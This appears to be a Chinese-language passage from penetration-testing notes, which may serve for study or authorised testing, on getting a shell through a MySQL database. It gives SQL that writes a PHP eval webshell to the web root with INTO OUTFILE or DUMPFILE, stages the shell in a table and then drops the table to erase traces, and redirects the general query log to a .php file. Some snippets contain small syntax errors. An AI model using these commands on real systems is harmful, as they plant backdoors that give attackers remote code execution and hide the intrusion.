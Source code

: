 ## 各种数据库的getshell方法

### Mysql数据库getshell

1. #### 直接写入webshell

   #### 利用条件：root权限 且 secure_file_priv的值为空 ，知道网站根路径

   ```mysql
   show global variables like '%secure_file_priv%';查看secure_file_priv的值
   #secure_file_priv的值为null则限制mysql,不允许导入导出，为tmp则可以在/tmp/目录下导入导出，无具体值时，表示不对mysql的导入导出做限制
   ```

   #### 读取语句

   ```mysql
   select * from test into outfile '/tmp/test.txt'
   select * from text into dumpfile '/tmp/test.txt'
   #outfile对输入的文本会进行格式转换，例如\n,同时可以输出多行;dumpfile会保持数据原有格式，只能输出单行
   ```

   #### 写入语句

   ```mysql
   select '<php eval($_POST[shell])?>' into outfile 'c:\\shell.php'
   select unhex('十六进制字符串') into dumpfile 'd:/web/shell'
   ```

   #### 创建表写马

   ```MySQL
   create table 'mysql'.'shell' ('webshell' text not null);#创建数据表
   insert into mysql.shell values('5<?php $eval($_POST[shell]);?>')#向表中插入一句话木马
   select 'webshell' from 'shell' into outfile 'c:\\1.php';#查询数据导出webshell
   drop table if exit 'shell';#删除表，清理痕迹
   ```

2. #### 开启日志写马

   - #### 查看genera文件的配置情况

     ```mysql
     show global variables like "%genera%";
     ```

   - #### 开启日志记录

     ```mysql
     set global general_log='on'
     ```

   - #### 日志文件导出指定目录

     ```mysql
     set global general_log_file = "c:/1.php";
     ```
